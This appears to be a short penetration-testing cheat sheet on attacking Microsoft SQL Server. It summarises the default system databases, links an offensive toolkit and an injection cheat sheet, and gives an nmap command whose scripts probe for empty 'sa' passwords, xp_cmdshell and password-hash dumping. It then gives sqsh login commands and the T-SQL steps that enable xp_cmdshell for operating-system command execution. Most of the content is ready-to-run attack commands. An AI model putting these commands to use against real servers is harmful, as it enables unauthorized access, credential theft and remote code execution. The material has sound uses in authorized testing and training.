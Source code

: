 ## Basic information 
#### Default MS-SQL System Tables
- **master Database** : Records all the system-level information for an instance of SQL Server.
- **msdb Database** : Is used by SQL Server Agent for scheduling alerts and jobs.
- **model Database** : Is used as the template for all databases created on the instance of SQL Server. Modifications made to the model database, such as database size, collation, recovery model, and other database options, are applied to any databases created afterwards.
- **Resource Database** : Is a read-only database that contains system objects that are included with SQL Server. System objects are physically persisted in the Resource database, but they logically appear in the sys schema of every database.
- **tempdb Database** : Is a work-space for holding temporary objects or intermediate result sets.

**Tool**:- https://github.com/quentinhardy/msdat
**Cheatsheet** - https://www.asafety.fr/mssql-injection-cheat-sheet/

**Nmap port enumeration**
```nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes    --script-args mssql.instance port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip```


## Execute commands 
#### After getting the credentials 
```bash
sqsh -U sa -P password -S 10.0.0.1:1433 -D mydb
```

#### Enable the `xp_cmdshell` to execute the command
```bash 
# To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;  
GO  

# To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
GO  
# To update the currently configured value for this feature.  
RECONFIGURE;  
GO
```